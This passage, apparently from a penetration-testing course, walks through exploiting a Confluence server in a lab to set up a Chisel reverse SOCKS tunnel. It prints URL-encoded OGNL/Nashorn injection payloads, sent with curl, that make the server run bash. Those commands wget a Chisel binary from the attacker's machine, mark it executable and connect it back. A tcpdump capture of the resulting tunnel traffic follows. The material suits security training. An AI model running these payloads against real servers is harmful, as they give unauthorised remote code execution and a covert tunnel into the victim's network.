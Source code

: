 > Listing 14 - Downloading Chisel 1.8.1 from the main Chisel repo, and copying it to the Apache web root directory.

This will overwrite the copy of Chisel we had already copied into the Apache web root directory. We can then just run the same Wget injection as we did before, to force the CONFLUENCE01 server to download the Chisel binary and write it to /tmp/chisel.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

> Listing 15 - The Wget payload executed within our cURL Confluence injection command, again.

We can then try to run the Chisel client again on CONFLUENCE01 using the injection.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```

> Listing 16 - Trying to start the Chisel client using the Confluence injection payload, again.

This time, different kind of traffic is logged in our Tcpdump session.

```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:13:53.687533 IP (tos 0x0, ttl 63, id 53760, offset 0, flags [DF], proto TCP (6), length 276)
    192.168.50.63.41424 > 192.168.118.4.8080: Flags [P.], cksum 0xce2b (correct), seq 1:225, ack 1, win 502, options [nop,nop,TS val 1290578437 ecr 143035602], length 224: HTTP, length: 224
        GET / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: Go-http-client/1.1
        Connection: Upgrade
        Sec-WebSocket-Key: L8FCtL3MW18gHd/ccRWOPQ==
        Sec-WebSocket-Protocol: chisel-v3
        Sec-WebSocket-Version: 13
        Upgrade: websocket

        0x0000:  4500 0114 d200 4000 3f06 3f4f c0a8 323f  E.....@.?.?O..2?
        0x0010:  c0a8 7604 a1d0 1f90 61a9 fe5d 2446 312e  ..v.....a..]$F1.
        0x0020:  8018 01f6 ce2b 0000 0101 080a 4cec aa05  .....+......L...
        0x0030:  0886 8cd2 4745 5420 2f20 4854 5450 2f31  ....GET./.HTTP/1
        0x0040:  2e31 0d0a 486f 7374 3a20 3139 322e 3136  .1..Host:.192.16
        0x0050:  382e 3131 382e 343a 3830 3830 0d0a 5573  8.118.4:8080..Us
        0x0060:  6572 2d41 6765 6e74 3a20 476f 2d68 7474  er-Agent:.Go-htt
        0x0070:  702d 636c 6965 6e74 2f31 2e31 0d0a 436f  p-client/1.1..Co
        0x0080:  6e6e 6563 7469 6f6e 3a20 5570 6772 6164  nnection:.Upgrad
        0x0090:  650d 0a53 6563 2d57 6562 536f 636b 6574  e..Sec-WebSocket
        0x00a0:  2d4b 6579 3a20 4c38 4643 744c 334d 5731  -Key:.L8FCtL3MW1
        0x00b0:  3867 4864 2f63 6352 574f 5051 3d3d 0d0a  8gHd/ccRWOPQ==..
        0x00c0:  5365 632d 5765 6253 6f63 6b65 742d 5072  Sec-WebSocket-Pr
        0x00d0:  6f74 6f63 6f6c 3a20 6368 6973 656c 2d76  otocol:.chisel-v
        0x00e0:  330d 0a53 6563 2d57 6562 536f 636b 6574  3..Sec-WebSocket
        0x00f0:  2d56 6572 7369 6f6e 3a20 3133 0d0a 5570  -Version:.13..Up
        0x0100:  6772 6164 653a 2077 6562 736f 636b 6574  grade:.websocket
        0x0110:  0d0a 0d0a                                ....
18:13:53.687745 IP (tos 0x0, ttl 64, id 60604, offset 0, flags [DF], proto TCP (6), length 52)
```